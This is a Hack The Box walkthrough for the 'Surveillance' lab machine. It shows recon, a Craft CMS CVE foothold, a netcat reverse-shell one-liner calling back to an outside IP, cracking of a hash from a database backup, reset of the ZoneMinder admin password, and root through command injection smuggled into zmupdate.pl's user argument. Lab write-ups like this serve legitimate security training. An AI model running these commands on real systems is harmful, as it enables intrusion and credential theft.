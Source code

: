 ```yaml
---
title: "[HTB] Surveillance"
date: 2023-12-15 19:08:41
tags: 
- [machine]
- [medium]
categories:
- [HTB]
---
```


<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    <img src="surveillance.png" title="Surveillance" width="300px" height="300px" style="pointer-events: none;">
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS: </strong>
      <img src="linux.png" alt="Linux" width="20px" height="20px" style="margin-left: 5px;">
      <span style="margin-left: 5px;">Linux</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Medium</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>TheCyberGeek & TRX</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>December 9, 2023</span>
    </div>
  </div>

</div>


## Recon

### Nmap

``` bash
$ nmap -sC -sV 10.10.11.245 -o nmap_scan
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-14 15:20 WET
Nmap scan report for 10.10.11.245
Host is up (0.045s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.09 seconds
```
| Port | Service |
|:----:|:-------:|
|  22  |   SSH   |
|  80  |   HTTP  |

### Gobuster

``` bash
$ gobuster dir --url http://surveillance.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://surveillance.htb/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 1]
/images               (Status: 301) [Size: 178] [--> http://surveillance.htb/images/]
/img                  (Status: 301) [Size: 178] [--> http://surveillance.htb/img/]
/admin                (Status: 302) [Size: 0] [--> http://surveillance.htb/admin/login]
/css                  (Status: 301) [Size: 178] [--> http://surveillance.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://surveillance.htb/js/]
/logout               (Status: 302) [Size: 0] [--> http://surveillance.htb/]
/p1                   (Status: 200) [Size: 16230]
/fonts                (Status: 301) [Size: 178] [--> http://surveillance.htb/fonts/]
```

Important directory: /admin

![](Surveillance/adminlogin1.png)


## Foothold

### Shell as www-data

Searching for Craft CMS exploit, I found [CVE-2023-41892](https://www.cvedetails.com/cve/CVE-2023-41892/)
We can get a shell using this [PoC](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)

This PoC uses a proxy, we can just enable burp suite's proxy and forward the request after running the exploit

![](Surveillance/www-datashell.png)
After I got the first shell I could not change directories, so I got a new revshell
``` bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.13 1234 >/tmp/f
``` 

## Lateral Movement

/etc/passwd
![](Surveillance/passwd.png)

### SQL Backup file

In the directory ~/html/craft/storage/backups, there is a sql backup zip file
![](Surveillance/zipfile.png)

We can just transfer the file to our machine
![](Surveillance/python3server1.png)
![](Surveillance/zipfiledownload.png)


### First credentials
After unzipping the file and looking through it, if we search for admin, we get a hashed password for Matthew
![](Surveillance/hashmatthew.png)

Using crackstation we can get Matthew's password
![](Surveillance/matthewpassword.png)

### user.txt flag

Just ssh as matthew with the obtained password and get the user.txt flag
![](Surveillance/ssh1.png)
![](Surveillance/userflag.png)

## PrivEsc

### LinPEAS

Running LinPEAS on the machine, I found more ports being used
![](Surveillance/ports.png)

| Port |      Service      |
|:----:|:-----------------:|
|  53  |        DNS        |
|  80  |   CraftCMS Page   |
|  22  |        SSH        |
| 3306 |        SQL        |
| 8080 | Another Web Page? |


Users with console:
![](Surveillance/consoleusers.png)

We can also find a database configuration with a password
![](Surveillance/zmuserpassword.png)

Looking into the database.php file, we can also confirm the username
![](Surveillance/databasephp.png)

### Port Forwarding

Since we had found another service running on port 8080, we can portforward this port to our machine through ssh

``` bash
$ ssh matthew@surveillance.htb -L 8080:localhost:8080
```

### ZoneMinder Login

We can see that it is a ZoneMinder login page
![](Surveillance/zoneminderlogin.png)

We can use the login we got before to look through the database

``` bash
$ mysql -h 127.0.0.1 -u zmuser -p
```
![](Surveillance/zmdatabase.png)

In the users table, we can find the user admin, and it's hashed password
![](Surveillance/userstable1.png)

We can just update the password and login with our new provided password
![](Surveillance/updatepassword.png)
![](Surveillance/adminpassword.png)

We can now login in the ZoneMinder page and check the version it is running
![](Surveillance/zoneminderversion.png)

### ZoneMinder Shell

We can use this [PoC](https://github.com/rvizx/CVE-2023-26035) to get a shell as zoneminder
![](Surveillance/zoneminderpoc.png)
![](Surveillance/zonemindershell.png)


### zmupdate.pl

The user zoneminder can run every file that starts with 'zm' and has the .pl extension in the /usr/bin directory
![](Surveillance/sudol.png)

There are a lot of possible files, but the one with the vulnerability is zmupdate.pl
![](Surveillance/lszm.png)

Looking at zmupdate.pl, which is one of the files we can run as sudo, it runs mysqldump, and then uses the $dbUser variable, we can use this to change the $dbUser variable to whatever command we want to run, and we will get an error for invalid user, but it will show us what was the user we were trying to use.
For example, if we set $dbUser to "cat /root/root.txt" we can expect to get the root flag in the user field

![](Surveillance/zmupdate.png)

If we try to just run the command without any argument, it will tell us that is is already in the latest version and will not run anything else.
![](Surveillance/zmupdateversion.png)

So we will need to use the flags -v, -u and -p (version, user and password).

``` bash
$ sudo /usr/bin/zmupdate.pl -v 1 -u '$(cat /root/root.txt)' -p '$(id)'
``` 
![](Surveillance/rootflag.png)

